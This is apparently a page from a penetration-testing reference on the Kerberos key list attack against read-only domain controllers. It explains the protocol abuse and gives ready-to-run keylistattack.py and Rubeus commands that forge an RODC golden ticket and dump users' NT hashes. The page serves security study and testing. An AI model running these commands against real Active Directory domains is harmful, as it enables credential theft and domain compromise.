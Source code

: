 # Kerberos key list

## Theory

It is possible to retrieve the long term secret of a user (e.g. NT hash) by sending a `TGS-REQ` (service ticket request) to the `KRBTGT` service with a [`KERB-KEY-LIST-REQ`](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-kile/732211ae-4891-40d3-b2b6-85ebd6f5ffff) message type. This was introduced initially to support SSO with legacy protocols (e.g. NTLM) with Azure AD on on-premises resources.\
An attacker can abuse this by forging a [RODC golden ticket](../../kerberos/forged-tickets/rodc-golden-tickets.md) for a target user and use it to send a `TGS-REQ` to the `KRBTGT` service with a `padata` filed value of [161](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-kile/ae60c948-fda8-45c2-b1d1-a71b484dd1f7) (`KERB-KEY-LIST-REQ`). Knowing the `KRBTGT` key of the RODC is required here. The `TGS-REP` will contain the long term secret of the user in the `KERB-KEY-LIST-REP` key value.

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, the [keylistattack.py](https://github.com/fortra/impacket/blob/master/examples/keylistattack.py) tool (Python) can be used for this purpose.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">#Attempt to dump all the users' hashes even the ones in the Denied list
#Low privileged credentials are needed in the command for the SAMR enumeration
<strong>keylistattack.py -rodcNo "$KBRTGT_NUMBER" -rodcKey "$KRBTGT_AES_KEY" -full "$DOMAIN"/"$USER":"$PASSWORD"@"$RODC-server"
</strong>
#Attempt to dump all the users' hashes but filter the ones in the Denied list
#Low privileged credentials are needed in the command for the SAMR enumeration
<strong>keylistattack.py -rodcNo "$KBRTGT_NUMBER" -rodcKey "$KRBTGT_AES_KEY" "$DOMAIN"/"$USER":"$PASSWORD"@"$RODC-server"
</strong>
#Attempt to dump a specific user's hash
<strong>keylistattack.py -rodcNo "$KBRTGT_NUMBER" -rodcKey "$KRBTGT_AES_KEY" -t "$TARGETUSER" -kdc "$RODC_FQDN" LIST
</strong></code></pre>
{% endtab %}

{% tab title="Windows" %}
From Windows systems, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for this purpose.&#x20;

{% code overflow="wrap" %}
```powershell
# 1. Forge a RODC Golden ticket
Rubeus.exe golden /rodcNumber:$KBRTGT_NUMBER /flags:forwardable,renewable,enc_pa_rep /nowrap /outfile:ticket.kirbi /aes256:$KRBTGT_AES_KEY /user:USER /id:USER_RID /domain:domain.local /sid:DOMAIN_SID

# 2. Request a TGT via TGS-REQ request and retrieve the NT hash of the user in the response
Rubeus.exe asktgs /enctype:aes256 /keyList /ticket:ticket.kirbi /service:krbtgt/domain.local 
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.secureauth.com/blog/the-kerberos-key-list-attack-the-return-of-the-read-only-domain-controllers/" %}
